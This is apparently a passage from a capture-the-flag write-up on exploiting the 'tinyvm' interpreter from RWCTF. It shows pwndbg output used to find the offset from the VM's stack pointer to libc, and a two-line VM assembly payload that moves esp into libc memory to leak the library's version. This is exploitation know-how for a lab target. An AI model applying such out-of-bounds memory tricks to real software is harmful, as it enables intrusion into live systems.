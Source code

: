 ```py

ia()
```


- run on local `./solve.py`
- run on local with `gdb` `./solve.py GDB`
- run on remote `./solve.py REMOTE`


### Leaking libc version

To do so, we have to move vm's `esp` register to point at the beginning of `libc` section in memory. We can quickly calculate offset using the debugger:

```c
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7fed234f0000     0x7fed23518000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23518000     0x7fed236ad000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed236ad000     0x7fed23705000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23705000     0x7fed23709000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23709000     0x7fed2370b000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
pwndbg> sp
$9 = {
  i32 = 0x1f6ec010,
  i32_ptr = 0x7fed1f6ec010,
  i16 = {
    h = 0xc010,
    l = 0xc010
  }
}
pwndbg> dist 0x7fed234f0000 0x7fed1f6ec010
0x7fed234f0000->0x7fed1f6ec010 is -0x3e03ff0 bytes (-0x7c07fe words)
```

Let's verify that thesis by crafting simple vm program and running it on a local env:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp
```

results:

```c
In file: /media/sf_D_DRIVE/rwctf/tinyvm/src/tvmi.c
    8         struct tvm_ctx *vm = tvm_vm_create();
    9 
   10         if (vm != NULL && tvm_vm_interpret(vm, argv[1]) == 0)
   11                 tvm_vm_run(vm);
   12 
 ► 13         tvm_vm_destroy(vm);
   14 
   15         return 0;
   16 }
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ rsp 0x7ffd7eb5bdc0 —▸ 0x55756d9422a0 (main) ◂— push r14
01:0008│     0x7ffd7eb5bdc8 ◂— 0x0
02:0010│     0x7ffd7eb5bdd0 —▸ 0x55756d946df0 (__do_global_dtors_aux_fini_array_entry) —▸ 0x55756d942250 (__do_global_dtors_aux) ◂— endbr64 
03:0018│     0x7ffd7eb5bdd8 —▸ 0x7f5f81261d90 (__libc_start_call_main+128) ◂— mov edi, eax
04:0020│     0x7ffd7eb5bde0 ◂— 0x0
05:0028│     0x7ffd7eb5bde8 —▸ 0x55756d9422a0 (main) ◂— push r14
06:0030│     0x7ffd7eb5bdf0 ◂— 0x200000000
```